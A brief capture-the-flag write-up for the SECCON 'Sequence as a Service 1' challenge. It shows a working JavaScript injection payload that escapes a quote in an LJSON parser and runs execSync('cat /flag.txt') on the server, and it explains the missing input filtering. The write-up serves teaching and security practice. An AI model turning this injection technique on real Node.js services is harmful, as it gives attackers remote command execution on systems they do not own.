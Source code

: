 ## Sequence as a Service 1


#### payload
```
http://sequence-as-a-service-1.quals.seccon.jp:3000/api/getValue?n=6&sequence=(a,b)=>(a("%2b","1\\",",11)%2bglobal.process.mainModule.require('child_process').execSync('cat /flag.txt')}))//"))
```

#### analyze

```javascript
function LJSON_application(binders,scope){
                return function(){
                    var fn = LJSON_variable(binders,scope)();
                    if (fn === null)
                        return null;

                    var calls = P.many(P.between(
                        P.sequence([P.skipSpaces,P.chr("(")]),
                        P.intercalatedSpaced(LJSON_value(binders,scope), P.chr(",")),
                        P.sequence([P.chr(")"),P.skipSpaces])))();

                    return fn + calls.map(function(args){
                            return "("+args.join(",")+")";
                        }).join("");
                };
            };
```
Our input is finally returned through the LJSON_application function.

```javascript
calls.map(function(args){
                            return "("+args.join(",")+")";
                        }).join("");
```
Our input is parsed by LJSON parser and stored in an array in calls
But we can see that there is no filtering for our input.
So we can use the backslash to escape the quote and insert any code.

![image](https://user-images.githubusercontent.com/46442697/145703555-78949c27-e9e0-4184-8808-8249d1d3863e.png)


